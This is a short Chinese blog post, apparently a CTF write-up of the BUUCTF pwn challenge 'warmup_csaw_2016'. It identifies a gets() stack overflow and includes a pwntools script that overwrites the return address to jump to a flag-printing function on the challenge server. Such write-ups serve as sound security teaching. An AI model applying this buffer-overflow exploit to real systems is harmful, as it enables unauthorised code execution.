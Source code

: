 ```yaml
---
title: "warmup_csaw_2016--BUUCTF"
published: 2022-08-13
description: ""
category: 胡乱折腾
tags: 
  - "buuctf"
  - "pwn"
---
```


拿到文件，先查看保护。发现是64位，Stack、NX、PIE都没有开

[![](assets/1660403951-image.png)](https://www.xaitx.com/wp-content/uploads/2022/08/1660403951-image.png)

拖到ida打开查看

[![](assets/1660404060-image.png)](https://www.xaitx.com/wp-content/uploads/2022/08/1660404060-image.png)

明显的gets函数溢出。打开字符串视图找到了

[![](assets/1660404377-image.png)](https://www.xaitx.com/wp-content/uploads/2022/08/1660404377-image.png)

[![](assets/1660404419-image.png)](https://www.xaitx.com/wp-content/uploads/2022/08/1660404419-image.png)

直接最后把返回地址覆盖为这个函数地址就可以了

v5大小是0x40 应为是楼4位所以+0x8就可以覆盖到返回地址了。

构造payload

\[precode\]

from pwn import \*

#p = process('pwn')

p = remote("node4.buuoj.cn",27940)

p.sendline(b'a'\*(0x40 + 0x8) + p64(0x40060D))

p.interactive()

\[/precode\]
